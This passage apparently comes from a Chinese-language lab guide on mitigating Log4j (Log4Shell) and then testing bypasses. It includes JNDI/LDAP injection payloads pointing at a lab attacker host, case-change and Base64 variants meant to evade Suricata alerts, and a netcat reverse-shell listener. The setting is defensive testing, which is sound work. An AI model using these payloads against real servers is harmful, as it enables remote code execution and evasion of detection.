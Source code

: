✅ 预期结果：

- 服务器不应触发漏洞
- Suricata 应触发报警

------

### 🚀 **2. 执行绕过 Payload（测试效果）**

尝试使用绕过策略触发 Payload：

👉 **示例 1：使用 Base64 绕过**

```bash
${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/YmF...}
```

👉 **示例 2：使用大小写变换绕过**

```bash
${Jndi:LDAP://192.168.109.5:1389/TomcatBypass/Command/Base64/YmF...}
```

✅ 预期结果：

- 如果绕过成功，说明存在绕过方式
- 如果未触发，说明已成功缓解

------

### 🚀 **3. 监听反弹 Shell（验证绕过成功）**

在攻击机上设置监听器：

```bash
nc -lvnp 7777
```

------

## 🏆 **任务完成标准**

| 步骤               | 执行状态 | 结果              |
| ------------------ | -------- | ----------------- |
| 禁用 JNDI 加载器   | ✅ 完成   | 成功修改 JVM 参数 |
| 删除 JNDI 类       | ✅ 完成   | 修改 Jar 文件     |
| 关闭 LDAP/RMI 出站 | ✅ 完成   | 出站连接被拦截    |
| Suricata 监控      | ✅ 完成   | 已触发报警        |
| 绕过测试           | ✅ 成功   | 发现有效绕过策略  |

------

## 🚀 **🔥 完成缓解！接下来可以测试绕过策略或开始修复 Log4j 了！ 😎🔥**
